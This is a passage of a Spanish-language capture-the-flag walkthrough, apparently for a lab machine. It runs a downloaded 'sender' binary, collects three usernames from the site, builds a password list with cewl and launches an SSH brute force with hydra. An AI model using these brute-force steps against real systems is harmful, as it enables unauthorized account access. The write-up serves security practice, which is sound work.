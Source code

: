 ```
Nmap done: 1 IP address (1 host up) scanned in 6.54 seconds
```

Si nos metemos en la pagina veremos una pagina normal y corriente en el que podemos descargar lo que parece ser una herramienta que esta proporcionando el servidor victima, si nos la descargamos dandole al boton y la intentamos ejecutar...

```shell
chmod +x sender
./sender
```

Info:

```
Uso: ./sender <IP> <PUERTO>
```

Por lo que vemos necesitamos la IP que seria la de la maquina victima, pero el puerto aparentemente todavia no le sabemos, ya que parece ser que se puede enviar algun tipo de informacion a dicho puerto el cual todavia no sabemos, por lo que seguiremos investigando.

## Escalate user alex

### cewl

Si investigamos en la pagina vemos `3` posibles usuarios que estan encima del `footer` que srian los siguientes:

> users.txt

```
juan
marta
alex
```

Por lo que vamos a crearnos un diccionario de usuarios con esos `3` y vamos a generar un diccionario de contraseñas de las palabras que se puedan encontrar en la pagina web de la siguienet forma:

```shell
cewl http://<IP>/ -w dic.txt
```

Info:

```
CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

Esto nos habra generado un diccionario de palabras de la pagina web, por lo que ahora utilizaremos `hydra` para saber si alguno de los usuarios de la lista tuviera alguna contraseña debil.

### Hydra

```shell
hydra -L users.txt -P dic.txt ssh://<IP> -t 64
```
